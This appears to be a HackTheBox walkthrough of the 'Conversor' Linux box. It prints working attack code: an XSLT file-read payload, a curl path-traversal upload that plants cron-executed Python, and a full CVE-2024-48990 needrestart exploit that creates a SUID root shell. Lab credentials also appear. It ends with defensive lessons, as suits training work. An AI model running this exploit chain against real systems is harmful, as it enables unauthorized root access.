





# Conversor — HackTheBox Walkthrough

Conversor is an Easy-rated Linux box built around a Flask web app that converts Nmap XML output using XSLT transforms. The developer hardened the XML parser but forgot to apply the same restrictions to the XSLT side — and left the source code publicly downloadable — making for a beautifully layered chain from file read to cron-based RCE to root via CVE-2024-48990.

---

## Overview

The attack path breaks into three clean phases:

1. **Reconnaissance** — Download the exposed source code, identify insecure XSLT processing and an unsanitized file upload.
2. **Foothold** — Use XSLT `document()` to read local files, then exploit path traversal in the upload to drop a Python script into a cron-executed directory, eventually landing SSH access.
3. **Privilege Escalation** — Abuse a `sudo` rule on `needrestart` and exploit CVE-2024-48990 (PYTHONPATH injection) to get a root shell.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scan

Starting with a standard service-version scan:



Two ports. The OpenSSH and Apache versions point firmly to Ubuntu 22.04 (Jammy). I added `conversor.htb` to `/etc/hosts` and moved to the web app.

### Web Enumeration

The site is a Flask application that lets registered users upload an XML file (typically Nmap output) and an XSLT stylesheet, then renders the transformed HTML result. Nothing unusual on the surface — but the `/about` page links to a source code download at `/static/source_code.tar.gz`. That's a gift.

Pulling the archive and reviewing the code revealed several things worth noting:

- **Flask secret key placeholder:** `Changemeplease` — almost certainly overridden in the live deployment, but worth confirming.
- **App and database paths:** The app lives at `/var/www/conversor.htb/` and uses a SQLite database at `/var/www/conversor.htb/instance/users.db`.
- **Passwords stored as unsalted MD5** — `hashlib.md5()` with no salt, trivially crackable (we saw the same lazy pattern in [CCTV](/writeups/season10/cctv/)).
- **Crontab:** `* * * * * www-data` executes every `.py` file in `/var/www/conversor.htb/scripts/` once per minute.
- **XML parser is hardened:** `resolve_entities=False, no_network=True` — XXE is locked down.
- **XSLT parser is not hardened:** `etree.parse(xslt_path)` with default settings.
- **No `secure_filename()`:** Uploaded filenames go straight into the path without sanitization.

The last two points are the entire foothold.

---

## Foothold

### Phase 1: XSLT `document()` File Read

Because the XSLT parser uses lxml's defaults, it honours the `document()` function, which can load and include external XML documents. Absolute paths and `file://` URIs are blocked by lxml's access controls in this configuration, but **relative paths work** — resolved from the uploads directory.

An XSLT payload like this reads an adjacent XML file on disk:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('../static/nmap.xslt')"/>
  </xsl:template>
</xsl:stylesheet>
```

This is useful for mapping the filesystem and confirming readable paths, but it only retrieves valid XML files — the SQLite database and Python source files aren't XML, so this technique alone won't get us credentials. We need code execution.

### Phase 2: Path Traversal → Cron RCE

The file upload handler saves files using the user-supplied filename directly, without calling Werkzeug's `secure_filename()`. That means we can traverse out of the upload directory by including `../` sequences in the `filename=` parameter of the multipart form.

The uploads land relative to the app's working directory, and the cron job runs every `.py` file in `/var/www/conversor.htb/scripts/`. Those two facts combine into a clean write-and-execute primitive.

Here's how to drop a Python script into the scripts directory using curl:

```bash
curl -b "session=<your_session_cookie>" \
     -F "xml_file=@dummy.xml" \
     -F "xslt_file=@payload.py;filename=../scripts/payload.py" \
     http://conversor.htb/convert
```

The `filename=../scripts/payload.py` part is the traversal. The cron job picks it up within 60 seconds and runs it as `www-data`.

For the initial enumeration payload, I wrote output to `/var/www/conversor.htb/static/` so it was web-accessible:

```python
import subprocess, os

output = subprocess.check_output(
    ["cat", "/var/www/conversor.htb/app.py"],
    stderr=subprocess.STDOUT
).decode()

with open("/var/www/conversor.htb/static/out.txt", "w") as f:
    f.write(output)
```

Fetching `/static/out.txt` after a minute gave me the live `app.py` — including the **real Flask secret key**: `C0nv3rs0rIsthek3y29`.

### Phase 3: Database Dump → SSH

With code execution confirmed, a follow-up script dumped the SQLite database:

```python
import sqlite3, os

conn = sqlite3.connect("/var/www/conversor.htb/instance/users.db")
rows = conn.execute("SELECT username, password FROM users").fetchall()

with open("/var/www/conversor.htb/static/db.txt", "w") as f:
    for row in rows:
        f.write(f"{row[0]}:{row[1]}\n")
```



An unsalted MD5 hash. John cracks it immediately against rockyou:

```bash
echo "fismathack:5b5c3ac3a1c897c94caad48e6c71fdec" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



```bash
ssh fismathack@conversor.htb
# Password: Keepmesafeandwarm
```

We're in.

---

## Privilege Escalation

### Sudo Enumeration

The first thing I do on any new shell is check `sudo -l`:



`needrestart` with no password. Let's check the version:

```bash
needrestart -V
# needrestart 3.5
```

Version 3.5 is vulnerable to **CVE-2024-48990** — a PYTHONPATH injection vulnerability. I also exploited a CVE-based privilege escalation path in [Facts](/writeups/season10/facts/), though the mechanism there was quite different.

### CVE-2024-48990 — How It Works

When `needrestart` scans for services that need restarting after a package update, it inspects running interpreter processes. For Python processes, it reads `PYTHONPATH` from `/proc/<pid>/environ` and then spawns its own Python instance with that `PYTHONPATH` to introspect installed packages.

The key insight: if we have a running Python process with a custom `PYTHONPATH` pointing at a directory we control, and that directory contains a malicious `importlib/__init__.py`, needrestart will import our code **as root** when it starts up.

There's one critical gotcha: needrestart's `interpsblacklist` skips Python scripts running from `/tmp/` and `/var/`. The bait process has to run from a non-blacklisted path — the home directory works. It also must be invoked as `python3 script.py`, not `python3 -c "..."`.

### Exploit

```bash
# Create exploit directory in home (bypasses /tmp/ blacklist)
EXPLOIT_DIR="$HOME/.nr_exploit"
mkdir -p "$EXPLOIT_DIR/importlib"

# Malicious importlib module — runs as root when needrestart imports it
cat > "$EXPLOIT_DIR/importlib/__init__.py" << 'EOF'
from os import system, getuid
if getuid() == 0:
    system("cp /bin/bash /tmp/bash; chmod u+s /tmp/bash")
EOF

# Bait script — just needs to be a running python3 process
cat > "$EXPLOIT_DIR/bait.py" << 'EOF'
import time
while True:
    time.sleep(1)
EOF

# Start the bait process with our poisoned PYTHONPATH
PYTHONPATH="$EXPLOIT_DIR" python3 "$EXPLOIT_DIR/bait.py" &

# Trigger needrestart as root — it reads our PYTHONPATH from /proc/<pid>/environ
sudo /usr/sbin/needrestart
```

needrestart scans the running Python process, picks up `PYTHONPATH`, imports `importlib` from our controlled directory, and executes our payload as root — copying bash and setting the SUID bit.



---

## Lessons Learned

**Apply the same parser restrictions to XSLT as you do to XML.** The developer correctly disabled entity resolution and network access on the XML parser, then used bare `etree.parse()` for XSLT. That asymmetry opened the `document()` file-read primitive. Both parsers should be hardened identically.

**Always call `secure_filename()`.** Werkzeug ships the fix. Not using it is an explicit choice that turns any file upload into a potential path traversal. In this case it handed us direct write access to a cron-executed directory.

**CVE-2024-48990's `/tmp/` blacklist is the critical detail.** Most writeups I've seen show the bait process running from `/tmp/` and wonder why it doesn't work. The `interpsblacklist` in needrestart is specifically designed to ignore scripts in `/tmp/` and `/var/`. Running the bait script from the home directory is what makes the exploit land. Also worth remembering: `python3 -c` invocations aren't matched — it has to be `python3 script.py`.

**Source code on the target is a goldmine.** A `/about` page linking to a downloadable tarball gave away the entire application including database paths, the cron config, and (with the live app) the real secret key. Always spider for `/static/`, `/download/`, `/source/`, and similar paths.

**Unsalted MD5 is not password storage.** `hashlib.md5(password.encode()).hexdigest()` falls to rockyou in seconds. Use `bcrypt`, `argon2`, or at minimum `hashlib.scrypt()` with a per-user salt.
